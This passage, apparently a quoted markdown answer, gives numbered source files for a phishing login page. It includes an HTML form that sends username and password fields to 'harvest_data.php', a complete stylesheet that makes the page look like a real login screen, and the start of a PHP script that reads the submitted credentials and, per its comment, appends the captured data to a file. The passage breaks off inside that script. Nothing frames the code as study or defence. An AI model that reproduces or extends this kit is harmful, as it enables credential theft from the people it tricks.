 >         <form action="harvest_data.php" method="post">
>             <input type="text" name="username" placeholder="Username" required>
>             <input type="password" name="password" placeholder="Password" required>
>             <button type="submit">Login</button>
>         </form>
>     </div>
> </body>
> </html>
> 
> ```
> 
> 4. **style.css**:
> ```css
> body {
>     font-family: Arial, sans-serif;
>     background-color: #f4f4f4;
>     display: flex;
>     justify-content: center;
>     align-items: center;
>     height: 100vh;
>     margin: 0;
> }
> .login-container {
>     background-color: #ffffff;
>     padding: 20px;
>     border: 1px solid #dddddd;
>     box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
>     width: 300px;
>     text-align: center;
> }
> .login-container h1 {
>     margin-bottom: 20px;
>     color: #333333;
> }
> .login-container input {
>     width: 90%;
>     padding: 10px;
>     margin: 10px 0;
>     border: 1px solid #dddddd;
>     border-radius: 5px;
>     color: #555555;
> }
> .login-container button {
>     background-color: #007bff;
>     color: white;
>     padding: 10px 20px;
>     border: none;
>     border-radius: 5px;
>     cursor: pointer;
> }
> .login-container button:hover {
>     background-color: #0056b3;
> }
> 
> ```
> 
> 5. **harvest_data.php**:
> ```php
> <?php
> if ($_SERVER["REQUEST_METHOD"] == "POST") {
>     $username = $_POST['username'];
>     $password = $_POST['password'];
>     
>     // Append the captured data to a file